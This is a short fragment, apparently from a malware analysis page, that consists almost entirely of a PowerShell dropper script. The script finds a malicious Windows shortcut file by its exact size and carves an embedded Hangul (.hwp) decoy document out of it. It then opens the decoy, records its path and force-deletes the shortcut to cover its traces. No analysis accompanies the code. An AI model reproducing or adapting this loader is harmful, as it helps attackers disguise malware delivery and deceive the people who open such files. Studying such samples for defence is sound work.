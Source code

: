 $lk=ls -Path '.\' -filter '*.lnk';
$relpath=get-location;
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$lk=$lk[$a].name;break}}
$n=$lk.Replace('.lnk','.hwp');
if($lk -eq $null) {$lk=ls -Path $env:temp -depth 2
for($a = 0;$a -lt $lk.length;$a++){if($lk[$a].length -eq 56397) {$relpath=$lk.directory;$lk=$lk[$a].name;break}}
};

$file = [System.IO.File]::ReadAllBytes($lk);$file1=[byte[]]$file[5709..(5709+50688-1)];
$fsdf=$lk.Replace('.lnk','.hwp');[System.IO.File]::WriteAllBytes($fsdf,$file1);
ac -path "C:\Users\user\Downloads\1.txt" $relpath
&"$relpath\\$fsdf";

ri "$relpath\\$lk" -force;


